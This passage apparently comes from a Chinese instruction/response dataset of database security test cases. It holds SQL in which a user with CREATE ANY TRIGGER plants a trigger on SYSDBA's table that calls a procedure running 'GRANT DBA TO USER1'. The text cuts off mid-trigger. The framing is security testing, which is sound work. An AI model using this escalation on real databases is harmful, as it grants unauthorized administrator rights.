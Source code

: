 --sysdba用户
--插入数据
INSERT INTO SYSDBA.T1 VALUES(1, 'SYSDBA');

--USER1用户
--查询授权结果
SELECT * FROM USER_ROLE_PRIVS;"
创建一组测试用例，使用create any trigger权限实现间接提权,user1用户拥有create any trigger权限，通过给SYSDBA用户创建触发器，在更新sysdba用户表时，调用存储过程授权DBA权限，sysdba用户更新数据触发触发器，执行授权命令,"--SYSDBA用户
--创建表
CREATE TABLE T1(ID INT, NAME VARCHAR(20));
--授予CREATE ANY TRIGGER权限
GRANT CREATE ANY TRIGGER TO USER1;
--插入数据
INSERT INTO SYSDBA.T1 VALUES(1, 'SYSDBA');

--USER1
--创建存储过程
CREATE OR REPLACE PROCEDURE GRANT_DBA
AUTHID CURRENT_USER
IS 
 PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN 
 EXECUTE IMMEDIATE 'GRANT DBA TO USER1';
END;

--创建触发器
CREATE OR REPLACE TRIGGER TRI_GRANT
